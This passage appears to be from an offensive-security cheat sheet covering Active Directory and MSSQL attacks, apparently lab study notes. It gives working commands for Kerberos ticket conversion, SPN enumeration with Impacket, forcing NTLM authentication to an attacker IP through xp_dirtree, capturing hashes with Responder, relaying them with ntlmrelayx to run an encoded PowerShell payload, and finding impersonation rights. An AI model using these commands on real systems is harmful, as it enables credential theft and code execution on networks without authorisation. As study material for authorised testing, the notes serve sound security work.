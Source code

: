 #### Ticket Convert

```
root@kali:ticket_converter# python ticket_converter.py velociraptor.ccache velociraptor.kirbi
Converting ccache => kirbi

# need to base64 decode first
root@kali:ticket_converter# python ticket_converter.py velociraptor.kirbi velociraptor.ccache
Converting kirbi => ccache
```

## MSSQL

### Discovery with AD

SetSPN

```
> setspn -T corp1 -Q MSSQLSvc/*
```

Impacket

```
GetUserSPNs.py -dc-ip 192.168.83.5 corp1.com/admin:lab
```

### UNC Path Hash Theft

Force an auth request

```
EXEC master..xp_dirtree "\\<attacker ip>\\test";
```

Capture

```
responder -I tun0
```

Relay

```
ntlmrelayx.py --no-http-server -smb2support -t 192.168.83.6 -c 'powershell -exec bypass -enc JABk[...]AAoA
```

### Impersonation

#### Login Level

```
SELECT distinct b.name FROM sys.server_permissions a INNER JOIN sys.server_principals b ON a.grantor_principal_id = b.principal_id WHERE a.permission_name = 'IMPERSONATE';
```

Test
